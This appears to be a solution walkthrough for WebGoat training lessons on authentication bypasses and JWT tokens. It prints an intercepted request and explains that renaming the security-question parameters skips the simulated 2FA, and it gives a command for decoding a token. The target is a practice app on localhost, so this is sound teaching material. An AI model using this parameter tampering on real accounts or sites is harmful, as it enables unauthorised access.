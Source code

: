 ## Authentication Bypasses

### Task 1

No andwer needed.

### Task 2

Intercept the POST request with a proxy of your chaoice:

```
POST /WebGoat/auth-bypass/verify-account HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 84
Origin: http://localhost:8080
Connection: close
Referer: http://localhost:8080/WebGoat/start.mvc
Cookie: JSESSIONID=7UAjP5LPBz1TN8T-wzcu1pZDAJSKTguUiX6pbW6m
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

secQuestion0=a&secQuestio1n=b&jsEnabled=1&verifyMethod=SEC_QUESTIONS&userId=12309746
```

Change the parameters `secQuestion0` and `secQuestion1` to `secQuestion2` and `secQuestion3` and send the request.
This will successfully circumvent the simulated 2FA.

## JWT Tokens

### Task 1

No answer needed.

### Task 2

No answer needed.

### Task 3

The given token can be base64-decoded with any normal tool.

Here is one of the possible methods:

```bash
echo "<token>" | tr '.' '\n' | base64 -d
```
